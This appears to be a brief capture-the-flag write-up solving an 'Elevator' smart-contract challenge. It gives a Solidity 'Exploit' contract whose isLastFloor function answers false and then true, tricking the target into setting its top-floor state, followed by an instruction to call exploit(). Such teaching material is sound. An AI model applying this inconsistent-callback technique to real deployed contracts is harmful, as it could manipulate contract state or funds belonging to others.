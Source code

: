 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint) external;
}

contract Exploit {

    uint floor = 0;

    function exploit(address _who) public payable {
        Elevator(_who).goTo(1);
    }

    function isLastFloor(uint _floor) public returns (bool) {
        if (_floor == floor){
            return true;
        }
        floor = _floor;
        return false;
    }

}
```
call exploit()

